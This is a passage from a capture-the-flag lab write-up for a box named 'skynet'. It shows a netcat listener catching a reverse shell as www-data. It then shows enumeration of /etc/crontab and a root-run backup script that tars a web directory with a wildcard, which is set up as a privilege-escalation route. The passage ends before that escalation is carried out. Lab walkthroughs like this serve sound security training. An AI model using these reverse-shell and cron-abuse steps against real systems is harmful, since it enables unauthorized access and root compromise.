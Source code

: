 ```bash
nc -lvnp 4444     

listening on [any] 4444 ...
connect to [10.18.20.116] from (UNKNOWN) [10.10.34.11] 42912
Linux skynet 4.8.0-58-generic #63~16.04.1-Ubuntu SMP Mon Jun 26 18:08:51 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 09:39:18 up  1:34,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (1459): Inappropriate ioctl for device
bash: no job control in this shell
www-data@skynet:/$
```

From here we can go to miles home directory and find the user flag.

Now we want to get the root flag.

after searching for a while, the only thing that seems interessing is this:

```bash
cat /etc/crontab

# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
*/1 *   * * *   root    /home/milesdyson/backups/backup.sh
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
```

There is a backup running all minutes, and it is using root privileges.

```bash
cat backup.sh

#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```

This script is very simple, it just goes to the `/var/www/html` folder and archiving all of the data inside `/home/milesdyson/backups/backup.tgz *`
